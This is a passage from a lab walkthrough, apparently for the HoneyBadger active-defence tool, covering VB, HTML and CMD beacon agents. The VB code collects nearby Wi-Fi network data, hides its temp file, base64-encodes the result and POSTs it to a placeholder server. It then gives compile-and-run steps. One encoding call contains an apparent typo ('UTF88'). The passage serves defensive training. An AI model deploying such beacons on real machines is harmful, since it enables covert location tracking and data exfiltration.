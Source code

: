             ' Create and initialize the wifi data variable
            Dim wifi As String
            wifi = objWSH.Exec("powershell netsh wlan show networks mode=bssid | findstr 'SSID Signal Channel'").StdOut.ReadAll
            
            ' Create a temp file
            Dim objWriter As New System.IO.StreamWriter(Environ("temp") & "\wifidat.txt")
            
            ' Write data to file
            objWriter.Write(wifi)

            ' Close file
            objWriter.Close(0)
            
            ' Read in the temp file contents with proper encoding
            wifi = objWSH.Exec("powershell Get-Content %TEMP%\wifidat.txt -Encoding UTF8 -Raw").StdOut.ReadAll
            
            ' Delete temp file
            Kill(Environ("temp") & "\wifidat.txt")

            ' Base64-encode data
            wifi = objWSH.Exec("powershell -Command ""& {[System.Convert]::ToBase64String([System.Text.Encoding]::UTF88.GetBytes('" & wifi & "'))}""").StdOut.ReadAll

            ' Create new web object
            Dim objHTTP As New Object
            objHTTP = CreateObject("MSXML2.ServerXMLHTTP")

            ' Open POST request to server
            objHTTP.Open("POST", "http://<SERVER>:5000/api/beacon/aedc4c63-8d13-4a22-81c5-d52d32293867/VB")

            ' Set request headers to notify server of POST form data
            objHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")

            ' Send the formatted data to the server
            objHTTP.Send("os=windows&data=" & wifi)
        End Sub
    End Module

Copy this script into a file with a .vb extension, and run vbc <FILENAME>.vb to compile, and then run <FILENAME>.exe to create the beacon.


### 4. HTML ###
To use a beacon with the HTML agent, go to the targets page and copy the GUID of the desired target, and create a URL formatted like so:
`http://<SERVER>:5000/api/beacon/<GUID>/HTML?lat=<LAT>&lng=<LNG>&acc=<ACC>`

Navigate to this page in a browser. The server will return a 404


### 5. CMD ###
The CMD agent is a type of HTML agent, as the beacon is created via web requests on the command line. There are two utilities in the util directory of HoneyBadger, one for windows and one for linux. They utilize Google's geolocation API. Usage information is available in those scripts. 

 ***                                                                 
<b><i>Continuing the course? </br>[Next Lab](/IntroClassFiles/Tools/IntroClass/ADHD/honeyshare/HoneyShare.md)</i></b>
